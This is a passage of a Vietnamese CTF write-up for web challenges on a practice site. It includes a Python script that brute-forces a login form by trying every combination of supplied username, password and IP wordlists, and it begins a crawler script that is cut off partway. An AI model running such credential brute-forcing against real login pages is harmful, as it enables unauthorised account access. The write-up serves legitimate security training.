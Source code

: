 ### Gatling gun

> Với chiếc Gatling gun mạnh mẽ trong tay, Mèo Yang Hồ có thể vượt qua bất kì cánh cửa bảo mật nào. Nhưng thật buồn cười là trong tay hắn lại không có một viên đạn nào.Nếu bạn muốn nghịch súng với Mèo thì hãy đi nhặt đạn ở trong Github của Cookie Hân Hoan nhé.

Bài này cũng chứa 1 login form khác nhưng nó yêu cầu 3 trường là username, password và ip. Inspect document cũng không có script để xử lý nên có vẻ nó không phải liên quan tới JS rồi.

Nhưng sau đó thì mình nhớ ra trong repo của bài **Github** có chứa "đạn" thật :v Có 3 file `ip.txt`, `pa$$w0rd.txt`, `userLame.txt` và giờ mình chỉ cần thử từng tổ hợp của 3 trường này để tìm flag thôi :v

*Tip là với những bài phải request để thử nhiều thì bạn có thể dùng google colab.*

```python
import requests

user = open('userLame.txt', 'r').read().strip().split('\n')
password = open('pa$$w0rd.txt', 'r').read().strip().split('\n')
ip = open('ip.txt', 'r').read().strip().split('\n')

for u in user:
  for p in password:
    for i in ip:
      data = {"username": u, "password": p, "ip": i}
      r = requests.post('http://chal9.web.letspentest.org/login', data=data)
      print(u, p, i, r.text)
```

![](gatling_gun.png)

`FLAG{e6c068faf9241fe9d1f2000516718377} `

### The maze runner

> Lạc vào một mê cung với vô vàn những chuỗi kí tự bí ẩn. Vừa chạy vừa phải nghĩ đâu mới manh mối giúp Gà thoát ra.Hãy giúp Gà một tay nhé?

Trang cho mình giao diện giống cây folder để mò vào từng folder tìm flag, khá giống giải mê cung rồi =))) nên lần này cứ viết thêm 1 cái script để tìm cũng được hoặc bạn có thể tìm tay :v

```python
import requests
import re
import base64

base = 'http://chal10.web.letspentest.org/'

def get_routes(path):
    r = requests.get(path)
    arr = [p.split('">')[1].split('</')[0] for p in re.findall('<a.*<\/a>', r.text)]
    return arr

def check(path):
    r = requests.get(path)
    if ('flag' in r.text.lower()) and ('fake' not in r.text.lower()):
        print(r.text)
        return True

def get_content(path):
    r = requests.get(path)
```